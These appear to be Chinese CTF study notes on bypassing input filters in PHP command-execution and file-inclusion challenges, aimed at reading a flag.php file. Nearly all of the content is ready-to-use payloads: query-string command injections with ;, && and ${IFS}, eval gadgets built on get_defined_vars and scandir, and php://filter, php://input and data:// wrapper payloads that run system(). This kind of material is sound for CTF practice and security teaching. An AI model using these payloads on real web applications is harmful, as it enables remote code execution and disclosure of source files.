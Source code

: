 ## 笔记

<br><br>

* 在逆向(星号)((BYTE*)的时候用宏定义#define BYTE unsigned char即可正常使用

<br>

* system("tac flag.php")用来读取文件内容;

<br>

* ?c=system("tac%20fla(星号)")意思是c=system("tac flag");


````
3.5 通配符绕过

[…]表示匹配方括号之中的任意一个字符
{…}表示匹配大括号里面的所有模式，模式之间使用逗号分隔。
{…}与[…]有一个重要的区别，当匹配的文件不存在，[…]会失去模式的功能，变成一个单纯的字符串，而{…}依然可以展开

````

<br>

* --命令绕过

<br>

黑洞绕过：system($c." >/dev/null 2>&1");

* 双写分号绕过?c=tac f*;ls
* 双写&&绕过?c=tac f*%26%26ls（注：星号被绕过可以用问号）（[0-9]和%的过滤是不会过滤%26之类的）（）
* 带行号绕过?c=nl<fla''g.php%7C%7Cls(此方法可能要右键看源代码)
* 有$的情况下可以重命名flag.php成txt再直接访问:先执行?c=mv${IFS}fla?.php${IFS}a.txt%7C%7Cls 然后使用ls||ls看看有没有命名成功。成功后直接访问a.txt
* 它只会让分号后面的指令进入黑洞，所以这里直接绕过






<br>

直接eval()传参时：
* 特殊字符:"$""&"如果只是对c进行过滤，就可以通过包含另一个函数来绕过
* 做题前先看看对谁过滤，再看如何过滤
* c=include$_GET[1]?>&1=php://filter/read=convert.base64-encode/resource=flag.php
* c=include$_GET[1]?>&1=data://text/plain,<?php system("nl flag.php")?>
* c=$nice=include$_GET["url"]?>&url=php://filter/read=convert.base64-encode/resource=flag.php
* 仅括号
* c=echo highlight_file(next(array_reverse(scandir(pos(localeconv())))));
* c=eval(next(reset(get_defined_vars())));&1=;system("tac%20flag.php");
* c=show_source(next(array_reverse(scandir(pos(localeconv())))));
* c=highlight_file(next(array_reverse(scandir(dir))));
<br>

当include(c)时：直接使用协议绕过
* c=data://text/plain,<?php system('tac f*');?>

<br>

* php被过滤的时候:
* ?c=data://text/plain,<?=system("tac fla*")?>
* 注：include()只会处理<?php>里面的内容

<br>

* $被过滤的时候:
* ?c=echo highlight_file(next(array_reverse(scandir(pos(localeconv())))));
* ?c=eval(next(reset(get_defined_vars())));&1=;system("tac%20flag.php");

<br>


````
一般使用方法：

php://filter/ [read|write =]过滤器|过滤器/resource=要过滤的数据流 conversion filter(转换过滤器) convert.base64-encode & convert.base64-decode(base64加密解密) 例如：php://filter/convert.base64-encode/resource=flag.php

过滤器可以设置多个

php://filter读取源代码并进行base64编码输出，例如一些敏感信息会保存在php文件中，如果我们直接利用文件包含去打开一个PHP文件，PHP代码是不会显示到页面上的，例如：

他只显示了一条语句，这时我们可以以base64编码的方式读取指定文件的源码：

php://input协议

input协议可以访问请求的原始数据的制度刘，将post请求中的数据作为PHP代码执行。当传入的参数作为文件名打开时，可以将参数设为php://input，同时post想设置的文件内容，php执行时会将post内容作为文件内容，从而导致任意代码的执行。

利用该方法，我们可以直接写入php文件，输入file=php://input，然后用burp抓包，写入PHP代码：

data://text/plain协议

同样类似php://input，可以让用户来控制输入流，当它与包含函数结合时，用户输入的data://流会被当做php文件执行，从而导致任意代码执行。

利用data://伪协议可以直接达到执行php代码的效果，例如执行phpinfo();

格式：data://text/plain,流

例如：

data://text/plain,<?php phpinfo();?>
//如果此处对特殊字符进行了过滤，我们还可以通过base64编码后再输入：
data://text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=

````




